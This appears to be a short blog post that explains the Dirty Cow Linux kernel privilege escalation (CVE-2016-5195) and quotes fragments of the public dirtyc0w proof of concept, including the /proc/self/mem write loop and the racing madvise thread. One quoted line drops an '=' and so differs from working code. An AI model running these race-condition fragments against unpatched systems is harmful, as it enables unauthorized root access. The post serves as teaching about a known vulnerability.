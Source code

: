 ```yaml
---
date: 2022-02-19 21:50:00
tags:
    - linux
    - COW
    - anusO1
category: tech
keywords:
  - dirtycow
---
```


## author: [[anusO1]](https://github.com/calebrwalk5)

## Details about "Dirty Cow" (CVE-2016-5195)

## COW (Copy on Write)

Copy on Write is an optimization technique that allows virtual pages of memory in different processes, which have identical content to map to the same physical memory pages. If one of the processes writes to one of these shared pages, the data is copied to a new physical page and the virtual-to-physical-memory mappings are updated according to the changes. This techniqie is used (and abused) in many different scenarios.

## Vulnerability

"Dirty Cow" (CVE-2016-5195) is a privilege escelation vulnerability in the Linux kernel. Here we are looking at the ["dirtyc0w PoC"](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```
It starts two threads. One thread opens /proc/self/mem read-write and loops millions of times writing the data specified on the command-line to it at the offset of the mmap’ed file.  /proc/self/mem is an entry in the procfs virtual file system which gives access to the pages of a current process’s virtual memory.

```
void *procselfmemThread(void *arg) {
	char *str;
	str=(char*)arg;
	int f=open("/proc/self/mem",O_RDWR);
	int i,c=0;
	for(i=0;i<100000000;i++) {
		lseek(f,(uintptr_t) map,SEEK_SET);
		c+=write(f,str,strlen(str));
	}
	printf("procselfmem %d\n\n", c);
}
```
This writes to /proc/self/mem and triggers COWs, but these pages are marked a private, and the memory pages will not be written back to the mapped file. However, the other thread loops, again millions of times, calling the madvise(2) system call on the same offset with the flag MADV_DONTNEED which tells the kernel to discard the pages that are mmap’ed.
```
void *madviseThread(void *arg) {
	char *str;
	str(char*)arg;
	int i,c=0;
	for(i=0;i<100000000;i++) {
		c+=madvise(map,100,MADV_DONTNEED);
	}
	printf("madvise %d\n\n",c);
}
```
